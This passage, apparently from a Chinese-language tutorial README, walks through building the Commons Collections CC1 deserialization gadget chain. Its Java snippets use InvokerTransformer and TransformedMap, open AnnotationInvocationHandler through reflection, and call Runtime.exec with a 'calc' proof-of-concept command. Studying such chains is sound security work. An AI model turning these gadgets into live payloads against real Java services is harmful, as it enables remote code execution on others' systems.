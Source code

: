 `AnnotationInvocationHandler`不是public，不能直接获取，反射获取。

```java
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
    Map map = new HashMap<>();
    map.put("key","value");
    Map transformedMap = TransformedMap.decorate(map,null,invokerTransformer);

    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class,Map.class);
    annotationInvocationHandler.setAccessible(true);
```

这里会有几个问题，`runtime`没有继承`Serializable`，需要反射实现。

![image-20220428183417745](README/image-20220428183417745.png)

在setValue之前，有两个if判断需要绕过。

首先解决runtime反射：

```java
        Class c = Runtime.class; //通过反射获取到字节码对象
        Method getRuntimeMethod = c.getMethod("getRuntime", null); //获取getRuntime静态方法
        Runtime r = (Runtime) getRuntimeMethod.invoke(null, null); //获取Runtime对象
        Method execMethod = c.getMethod("exec", String.class); //反射调用exec方法
        execMethod.invoke(r,"calc");
```
